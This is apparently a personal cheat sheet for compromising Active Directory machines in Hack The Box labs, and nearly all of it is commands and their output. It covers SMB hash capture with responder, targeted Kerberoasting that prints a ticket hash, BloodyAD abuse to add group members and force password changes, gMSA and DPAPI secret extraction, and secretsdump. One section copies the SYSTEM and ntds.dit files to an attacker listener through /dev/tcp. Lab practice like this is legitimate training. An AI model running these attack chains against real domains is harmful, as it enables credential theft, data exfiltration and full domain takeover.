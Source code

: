 I made this to work 10x faster on  [Active Directory](../../3%20-%20Tags/Hacking%20Concepts/Active%20Directory.md) boxes.
## Interesting ports from scan

```bash
53: DNS Most of the time not the way in, maybe enum   
88: Kerberos - Maybe Kerbrute but not much to go into
135/139/445: 'SMB'  Always interesting !!
3389: RDP  Always stands out, worth checking
```

Add domain name from nmap to `/etc/hosts`
## Ticket Requests

If gives you password but don't work:
```bash
└─$ impacket-getTGT machine.htb/'user,name':'passwd'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in user.name.ccache

$ export KRB5CCNAME=/home/mdn0x/HTB/Machines/Machine/user/tickets/user.name.ccache   # IMPORTANT

$ nxc ldap machine.htb -u user.name -p passwd -k
LDAP        machine.htb      389    DC               [*] None (name:DC) (domain:machine.htb)
LDAP        machine.htb      389    DC               [+] machine.htb\user.name:passwd  
```

Now collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md).
## SMB (135,139,445) Enumeration

Can i find creds, write, steal with links?

Anonymous access? `netexec` or [SMBclient](../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) or [SMBmap](../../3%20-%20Tags/Hacking%20Tools/SMBmap.md) 

```bash
smbclient -L \\\\domain.name\\

smbclient -L \\\\domain.name\\ -U user # If you have creds
```

OR
```bash
nxc smb dc.domain.htb -u user.name -p 'passwd' -k --shares --smb-timeout 500   # -k is for ticket usage

impacket-smbclient -k dc.machine.htb # To connect usage: shares, use share, ls, cd, get  
```

if list the shares then yes. Can connect?

```bash
smbclient \\\\domain.name\\Share # -U user -p passwd
```

If can write steal creds with `responder`

To steal use https://github.com/overgrowncarrot1/SMBKiller

```bash
python3 SMB_Killer.py -r Victim_IP -l MY_IP -d domain.name -i tun0 -a Share -U 'blankforanon' -p passwd?    
```

The tool starts an automatic responder instance to capture the hashes.

Crack with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) or [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md)

Verify user:

```bash
nxc smb domain.name -u 'user.name' -p 'passwd' --shares
```

## Bloodhound

Collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md):

```bash
 bloodhound-python -u 'user' -p 'passwd' -d domain.htb -ns 10.10.11.xx -c All --zip # -p or --hashes
```

Checks
```bash
'OUTBOUND OBJECT CONTROL'
'GROUPS' # like RemoteManager (WinRM)
```

Stands out
```bash
GenericAll: changepasswd and ownaccount # You can do everything with GA - BloodyAD
WriteSPN: can create a fake `SPN` of `user2` and get and hash to crack ## TargetedKerberoast tool
AddSelf: Add user to group # BloodyAD tool
ReadGMSAPassword: Reads any gMSA password blobs the user can access # GMSADumper tool
ForceChangePassword: modify directly # BloodyAD
WriteOwner: Change password # Impacket-owneredit then BloodyAD
```

## Evil-WinRM

```bash
evil-winrm -u 'user.name' -p 'passwd' -i dc.machine.htb # -H for hashes

evil-winrm -i dc.domain.htb -k userticket.ccache -r REALM.htb  # with ticket auth, add REALM in krb5 config if needed
```

## TargetedKerberoast


**WriteSPN**
```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)
└─$ python3 targetedKerberoast.py -v -d domain.htb -u user -p 'passwd'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (user2)
[+] Printing hash for (user2)
$krb5tgs$23$*user2$DOMAIN.HTB$machine.htb/User2*$0e83983aba480c3219b96987f20b128e$f66d93f0d55de1da3610267d601fe46a3eed827e3348ff764eca454ff3067429352018f988e71b0bca4636df36765f69664d77acdd4080b34d70ead2abbd2f52bb82054cd69f7f75475ee9beb93b06d036d6b24c8ace08ce04aac9cba49a6b8311fa66eb35ed80222cd23fc328ba489d2d9e83c47f9d0d1982b<SNIP>
[VERBOSE] SPN removed successfully for (user)
```

## BloodyAD

**AddSelf**
```bash
┌──(mdn0x㉿mdn0xKali)
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u user -p 'passwd' add groupMember GROUP user
[+] user added to GROUP
```


**ForceChangePassword - GenericAll**
```bash
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u 'user' -p 'passwd' set password USER2 'Hacker123!' # hash with -p also
[+] Password changed successfully!
```

## GMSADumper

**ReadGMSAPasswords**
```bash
└─$ python gMSADumper.py -u user -p passwd -d domain.htb 
```

This give you an usable hash like this`:4f46405647993c7d4e1dc1c25dd6ecf4` 
## Write Owner

First we use `impacket-owneredit` to make `USER` owner of `USER2`:

```bash
└─$ impacket-owneredit -action write -target 'user2' -new-owner 'user' 'machine.htb/user':'Hacker123!' -dc-ip 10.10.11.xx
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=DCname,DC=htb
[*] OwnerSid modified successfully!
```

Now we can change his password with `bloodyAD`. First add `GenericAll`:

```bash
─$ bloodyAD --host 10.10.11.xx -d machine.htb -u 'user' -p 'Hacker123!' add genericAll user2 user
[+] user has now GenericAll on user2
```

Now change password.

## DPAPI

If you can find `dpapi` encrypted data and keys:

``` bash
- get /../../../AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88

- get /../../../AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```
### Cracking

crack the key:
```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password Password
```

Crack creds
```bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key keyfrommasterkey
```

## Secrets Dump 

If you can find the `SYSTEM` and `NTDS` files grab them, possibly with a listener:

```bash
$ nc -lvnp 4444 > SYSTEM

cat SYSTEM  > /dev/tcp/10.10.xx.xx/4444 # on Target

$ nc -lvnp 4444 > ntds.dit

cat ntds.dit > /dev/tcp/10.10.xx.xx/4444 # on Target
```
### Cracking

Use `Impacket` function to crack the hashes:

```bash
$ impacket-secretsdump -ntds ntds.dit -system SYSTEM local 
```

Request a ticket then use [Evil-WinRM](../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) with `-k` flag.